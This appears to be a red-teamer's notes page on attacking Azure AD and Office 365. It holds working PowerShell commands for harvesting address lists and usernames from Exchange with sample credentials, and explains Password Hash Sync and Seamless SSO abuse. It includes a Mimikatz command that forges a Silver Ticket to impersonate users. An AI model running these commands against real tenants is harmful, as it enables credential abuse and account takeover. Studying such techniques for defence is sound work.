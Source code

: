 # Password Spraying
**By connecting to Outlook Web Access Portal and utilizing the FindPeople method, it is able to gather the list of all email addresses**
```
Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName thureinsoe@insomnia.com -Password 123456%*@aA -OutFile global-address-list.txt

```
# Exchange Service
Connecting to Exchange Service, it is also able to retrieve the Active Directory username corresponding to the given email address
```
Get-ADUsernameFromEWS -EmailList gotham-emails.txt -ExchHostname outlook.office365.com -Remote
```
# Enabling Multi-Factor Authentication Users
The following MSOnline PowerShell command allows Azure AD administrators to list Azure AD users and the state of their MFA configuration
```
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```
# Password Hash Synchronization (PHS)
Password hash synchronization is one of the sign-in methods used to accomplish hybrid identity. Azure AD Connect synchronizes a hash, of the hash, of a user's password from an on-premises Active Directory instance to a cloud-based Azure AD instance.

Password hash synchronization is an extension to the directory synchronization feature implemented by Azure AD Connect sync. You can use this feature to sign in to Azure AD services like Office 365. You sign in to the service by using the same password you use to sign in to your on-premises Active Directory instance
**This attack is not actually targeting Azure AD but exploiting one of its features in order to escalate privileges on the on-premise Active Directory domain it is synchronized with. Remember Password Hash Synchronization? As explained earlier in this post, a synchronisation account is created by Azure AD Connect on the on-premises Active Directory

![Image of Yaktocat](https://security4cloud.fr/wp-content/uploads/2019/07/PasswordSync.png)



# Seamless Single Sign-On (SSO)
Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically signs users in when they are on their corporate devices connected to your corporate network. When enabled, users don't need to type in their passwords to sign in to Azure AD. This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.**When the user wants to connect to Azure AD, the Domain Controller provides him a service ticket for Azure AD. Service tickets are encrypted with the password of a computer account named AZUREADSSOACC$, automatically created when enabling this feature**

In order to do so, the following parameters are required:

* Username of the user to impersonate.
* Domain name.
* NTLM hash of the AZUREADSSOACC$ account.
* SID of the user to impersonate.
* Target service, which is HTTP/aadg.windows.net.nsatc.net.

**Having this information we can now create and use the Silver Ticket on any Windows computer connected to the internet Service**
```
kerberos::golden /user:NyaMeeEain /domain:insomnia.com /rc4:db[...]59 /sid:S-1-5-21-805388781-1469664503-1626361301-1106 /id:1234 /target:XXXXXXX.net /service:HTTP /ptt
```
# References
* [AZURE AD INTRODUCTION FOR RED TEAMERS](https://www.synacktiv.com/en/publications/azure-ad-introduction-for-red-teamers.html)
* [Password Hash Sync Deep Dive](https://www.eshlomo.us/password-hash-sync-deep-dive/)
